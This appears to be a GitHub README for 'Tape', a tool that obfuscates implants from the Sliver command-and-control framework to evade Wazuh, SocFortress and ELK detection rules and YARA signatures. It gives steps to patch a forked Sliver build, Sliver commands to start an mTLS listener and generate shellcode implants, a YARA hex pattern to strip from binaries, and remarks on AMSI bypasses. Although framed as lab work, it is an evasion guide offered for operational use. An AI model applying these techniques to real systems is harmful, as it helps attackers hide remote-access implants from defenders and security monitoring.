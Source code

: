# Tape
Scotch-Tape usage for [Sliver](https://github.com/BishopFox/sliver) obfuscation  
This technique looks a bit like this ...
<p align="center">
  <img src="./image/jim-carrey-tape.gif" alt="jimmy-jim width="290" height="290" />
</p>  


## In Labs - GOAD with Wazuh Activated    
1. Yes, I know that just tweaking some settings in Havoc allows the demon.bin to be executed on GOAD (on Socfortress rules machines) without issues. But in this case, my goal was to achieve the same thing manually with [Sliver](https://github.com/BishopFox/sliver), which allowed me to learn much more about this C2.
And for Havoc, if you didn't know—now you know.    
2. In this case, we will bypass and obfuscate our payload with minimal effort. (If my calculations are correct: Socfortress—out, ELK multi sliver rules—out, Wazuh sliver YARA rules—out. I’m not considering Defender in my equation because some built-in bypasses in the implant can still be flagged, even in this case.)  

## Taping.sh
1. Fork [Sliver](https://github.com/BishopFox/sliver) to your own repository.  
2. Clone the repo on your server.  
3. Place this [Tape](https://github.com/Oni-kuki/Tape) repo in front of your forked [Sliver](https://github.com/BishopFox/sliver) repo (on your server, of course)
4. Execute [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh)

> [!NOTE]  
> Version 1.5 or 1.6 are reference to [Sliver](https://github.com/BishopFox/sliver) version
> 1.6 is still in development so use it with caution (do not use it in production).  
> I have a better solution if you want to use the latest version because Donut-based payloads in 1.6 are not flagged as much yet.   

```taping.sh
./taping.sh version 1.5 FOLDER/
./taping.sh version 1.6 FOLDER/
```

> [!CAUTION]  
> This takes a while, so be patient  
> I highly recommend reading the script, because it's necessary to make some modification on it, in link with your fork  

## Scotch.py  
This script can be used independently of this repo, (if you have read the [Taping.sh](https://github.com/Oni-kuki/Tape/blob/main/taping.sh) you'll notice some redundancy in the obfuscation techniques.)  

```
python3 scotch.py FILE
```

> [!CAUTION] 
> Depending on your listener, not every obfuscation technique can be applied. By default, the obfuscation is set for an mTLS listener.   
> So again Read the script

```sliver
mtls -L HOST_IP -l port -p
generate -m HOST_IP:PORT -G --skip-symbols -f shellcode -s ./FOLDER/TO/SAVE
```
## Last but not Least  
I don't have automated one particular obfuscation (wireguard strings because it's still a bit tricky)  
You can make it manually with ghidra for the moment, I will automated in a few days.  
the hex to change is based on this rule part :
```
$p1 = {66 81 ?? 77 67}
```
Use the yara rule to identify correctly the Hex part; it's more precise.  

## Some Recomendations
> [!NOTE]
> Build the 1.5 version   
> Next to this build the 1.6 version  
> Add the sliver-server binary of 1.6 to the 1.5 server, like external builder and use it for every implant generation  

### Why did I make this ? 
Because the Donut loader in version 1.6 doesn't allow the execute-assembly method to work correctly.
I tested a lot of things to understand why, and I isolated the fact that the loader cannot retrieve the output. This might be linked to the AMSI patch (the bypasses are applied in two ways: one for Donut itself, (for implant) and the other in the loader for execute-assembly). However, I haven't delved too deeply into the subject yet.  

Regardless, version 1.6 is quieter for the implant, while version 1.5 works better for execute-assembly. In any case, version 1.5 is more stable and production-ready.  
